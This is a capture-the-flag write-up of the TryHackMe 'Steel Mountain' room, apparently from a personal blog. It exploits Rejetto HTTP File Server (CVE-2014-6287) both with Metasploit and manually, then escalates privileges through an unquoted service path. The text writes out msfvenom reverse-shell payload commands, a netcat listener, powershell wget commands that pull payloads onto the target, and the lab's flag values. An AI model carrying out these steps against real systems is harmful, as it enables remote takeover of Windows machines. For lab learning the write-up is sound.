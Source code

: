 ```yaml
---
title: 'Steel Mountain 🗻'
excerpt: 'Featured writeup'
date: '2021-03-27T05:35:07.322Z'
author:
  name: Collin Orner
  picture: '/assets/blog/authors/collin.jpeg'
---
```



# Task 1 - Introduction

*Deploy the Machine.*

## Who is the employee of the month?

If you go to the IP of the website, you will see a picture of a man from Mr. Robot. If you watched the show, you may recognize him. I forgot his name, so I reverse searched the image to find his name.

**Answer:** **`Bill Harper`**

# Task 2 - Initial Access

## Scan the machine with nmap. What is the other port running a web server on?

I ran `nmap -sCV -A -Pn -vvv <ip>` to find the port running a http web server.

**Answer:** ``` 8080 ```

## Take a look at the other web server. What file is running?

After finding the port number from the nmap scan, I went to the url with the port number and found the server information at the bottom. I did some OSINT on the server version and found the exact name.

**Answer:** ``` Rejetto Http File Server ```

## What is the CVE number to exploit this file server?

Along with finding the file server running, on the same website it showed the CVE number. [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

**Answer:** ``` 2014-6287 ```

## Use Metasploit to get an initial shell. What is the user flag?

run Metasploit with `msfconsole`

search for the exploit by typing in the CVE number with the command `search 2014-6287`

use the exploit with `use 0`

all you have to set is your RHOSTS and RPORT. Under the `show options` command it shows that there are a lot of required options but you only need those 2. 

I was getting an error saying, "This exploit may require manual cleanup of '%TEMP%\txVTS.vbs' on the target." To fix this, simply restart your box and get a new IP.

After running `exploit` I got a meterpreter shell within the metasploit console.

Running `pwd` I found by default I was put in the directory under the Users\bill, and figured I might check the Desktop.

On the Desktop there was a user.txt file, so I ran `cat user.txt` to get the flag

**Answer:** 
``` b04763b6fcf51fcd7c13abc7db4fd365 ```

# Task 3 - Privilege Escalation (With Metasploit)

## Take close attention to the CanRestart option that is set to true. What is the name of the name of the service which shows up as an unquoted service path vulnerability?

Download the script from the box with `git clone https://github.com/PowerShellMafia/PowerSploit.git`

I put it into my TryHackMe folder for SteelMountain to keep it more organized. 

Go back to your meterpreter and upload it with `upload /home/kali/../PowerUp.ps1`

On the box it tells you to run `load powershell` in the meterpreter then `powershell_shell`

I checked to run the script with `./PowerUp.ps1` and it might've executed, but I checked for the CanRestart option with the command `invoke-allchecks` 

**Answer:** ``` AdvancedSystemCareService9 ```

## What is the root flag?

First, I made the reverse shell with the command given from the box `msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o Advanced.exe`

Then I went to the meterpreter and backgrounded the shell to load the exploit named `exploit/multi/handler` 

With this as my exploit, I set the payload to `windows/shell/reverse_tcp`

Make sure you match up the LHOST and LPORT to link with the reverse shell created with msfvenom. 

Run the exploit, and go into the old meterpreter with `sessions 0`

In here, cd into the Advanced SystemCare in the Program Files x86.

Open a shell with `shell` and stop the program with `sc stop AdvancedSystemCareService9` 

Exit out of this shell and upload the .exe you made with msfvenom into the Advanced SystemCare folder. 

Go back into the shell, and start the service with `sc start AdvancedSystemCareService9` 

This should launch the program with your executable making it so you can get root access. 

Look around in the root folder for the root.txt file.

**Answer:** ``` 9af5f314f57607c00fd09803a587db80 ```

# Task 4 - Access and Escalation Without Metasploit

First you want to get your exploit.

I searched for the exploit using searchsploit; `searchsploit rejetto http file server`

As you can see, the EDB-ID matches up with the searchsploit Exploit Title.

If you're on kali linux, it's already in your system so you can copy it over with `cp /usr/share/exploitdb/exploits/windows/remote/39161.py <filename.py>`

Nano into the .py file and set your local ip address to your openvpn IP.

Set the local port number to a port you will remember to run netcat with later on. 

On another tab in your terminal, start a SimpleHTTPServer with `sudo python -m SimpleHTTPServer <port>` (just use like port 80 or 8080)

On another tab in your terminal, start up that netcat listener on the port you put in the .py exploit file. `nc -lvnp <port>`

Run the exploit .py file with the command `python <filename>.py <target IP> 8080` 

If you get a 404 response in your Http Server, copy the ncat.exe to nc.exe, the script reads the listener as a different file name then what the box provides.

Once you get a 200 response message in the Http Server, run the exploit again and you should get a shell in your NC listener. 

## What powershell -c command could we run to manually find out the service name?

**Answer:** ``` powershell -c Get-Service ```

Now let's escalate to Administrator with our new found knowledge.

Download the WinPeas.exe file from the GitHub repo for privilege escalation. [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated Releases/winPEASx64.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe)

With this, upload it to your target's machine with the new command you learned (powershell -c) `powershell -c wget "http://<local IP><port>/winPEASx64.exe" -outfile "winPEAS.exe"`

Run the file by simply typing the file name `winPEAS.exe`

Now, go back to your local host and make the ASCService.exe like we did with metasploit last task. `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o ASCService.exe` this will make the ASCService.exe on your local machine, and now you have to upload it to the target host.

Upload it with `powershell -c wget "http://<ip>:<port>/ASCService.exe -outfile "ASCService.exe"`

Now, just like in the Metasploit part, stop the service with `sc stop AdvancedSystemCareService9`

And then copy the .exe to the Advanced SystemCare with `copy ASCService.exe "Advanced SystemCare"`

Just start the service up again and your exploit will be encoded into the start. `sc start AdvancedSystemCareService`

Now you are root, the root.txt flag is right in the open it's not hard to find at all if you still need the root.txt flag. 

Congratulaions! You did the room. Thanks for reading my writeup! 🐦 **@collinhacks**

